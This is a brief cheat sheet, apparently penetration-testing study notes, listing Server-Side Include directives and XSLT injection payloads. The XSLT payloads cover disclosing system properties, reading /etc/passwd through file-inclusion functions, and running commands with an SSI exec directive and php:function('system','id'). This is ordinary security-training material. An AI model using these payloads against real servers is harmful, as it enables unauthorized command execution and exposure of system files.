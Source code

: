 ## SSI Injection - Directives

|Print variables|`<!--#printenv -->`|
|---|---|
|Change config|`<!--#config errmsg="Error!" -->`|
|Print specific variable|`<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->`|
|Execute command|`<!--#exec cmd="whoami" -->`|
|Include web file|`<!--#include virtual="index.html" -->`|

## XSLT Injection

### Elements

|`<xsl:template>`|This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to|
|---|---|
|`<xsl:value-of>`|This element extracts the value of the XML node specified in the `select` attribute|
|`<xsl:for-each>`|This elements enables looping over all XML nodes specified in the `select` attribute|
|`<xsl:sort>`|This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument|
|`<xsl:if>`|This element can be used to test for conditions on a node. The condition is specified in the `test` argument|

### Injection Payloads

|**Information Disclosure**|
|---|---|
||`<xsl:value-of select="system-property('xsl:version')" />`|
||`<xsl:value-of select="system-property('xsl:vendor')" />`|
||`<xsl:value-of select="system-property('xsl:vendor-url')" />`|
||`<xsl:value-of select="system-property('xsl:product-name')" />`|
||`<xsl:value-of select="system-property('xsl:product-version')" />`|
|**LFI**||
||`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`|
||`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`|
|**RCE**||
||`<xsl:value-of select="php:function('system','id')" />`|
